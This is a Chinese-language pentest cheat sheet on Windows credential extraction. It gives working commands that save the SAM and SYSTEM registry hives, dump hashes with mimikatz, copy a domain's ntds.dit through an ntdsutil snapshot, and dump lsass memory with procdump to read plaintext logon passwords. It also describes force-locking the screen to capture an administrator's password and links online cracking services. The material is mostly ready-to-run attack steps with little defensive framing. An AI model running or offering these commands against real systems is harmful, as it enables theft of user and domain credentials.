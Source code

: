 # Windows Hash提取

## 0x00 基础知识

- LM Hash Windows Vista和Windows Server 2008以前的系统还会使用
- NTLM Hash
- Net-NTLM Hash 网络环境下NTLM认证中的hash

[Windows下的密码hash——NTLM hash和Net-NTLM hash介绍](https://3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D)
## 0x01 离线获取Hash

### 1.目标主机注册表导出文件
```
reg save HKLM\SYSTEM system.hive
reg save HKLM\SAM sam.hive
reg save hklm\security security.hive
```
### 2. 通过mimikatz导出Hash

```
$ ./mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::sam /sam:sam.hive /system:system.hive
```

### 3. 导出域Hash ntds,dit
```
 创建快照
ntdsutil snapshot "activate instance ntds" create quit quit
GUID 为 {aa488f5b-40c7-4044-b24f-16fd041a6de2}

# 挂载快照
ntdsutil snapshot "mount GUID" quit quit

# 复制 ntds.dit
copy C:\$SNAP_201908200435_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit

# 卸载快照
ntdsutil snapshot "unmount GUID" quit quit

# 删除快照
ntdsutil snapshot "delete GUID" quit quit

# 查询快照
ntdsutil snapshot "List All" quit quit
ntdsutil snapshot "List Mounted" quit quit
 ```
## 0x02 主机获取密码

### 获取明文密码

>在 KB2871997 之前， Mimikatz 可以直接抓取明文密码。
当服务器安装 KB2871997 补丁后，系统默认禁用 Wdigest Auth ，内存（lsass进程）不再保存明文口令。Mimikatz 将读不到密码明文。
但由于一些系统服务需要用到 Wdigest Auth，所以该选项是可以手动开启的。（开启后，需要用户重新登录才能生效）

以下是支持的系统:
Windows 7
Windows 8
Windows 8.1
Windows Server 2008
Windows Server 2012
Windows Server 2012R 2

- 原理：获取到内存文件lsass.exe进程(它用于本地安全和登陆策略)中存储的明文登录密码
利用前提：拿到了admin权限的cmd，管理员用密码登录机器，并运行了lsass.exe进程，把密码保存在内存文件lsass进程中。
抓取明文：手工修改注册表 + 强制锁屏 + 等待目标系统管理员重新登录 = 截取明文密码

procdump64.exe导出lsass.dmp
```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
使用本地的mimikatz.exe读取lsass.dmp
```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit"
```

## 0x03 破解 Hash 
>超好用，可惜已经停止服务了
- [Ophcrack 在线破解](https://www.objectif-securite.ch/en/ophcrack)

- [Cmd5在线破解](https://www.cmd5.com/)

## Ref

- https://3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D 
- https://uknowsec.cn/posts/notes/Mimikatz%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E6%8A%93%E5%8F%96.html
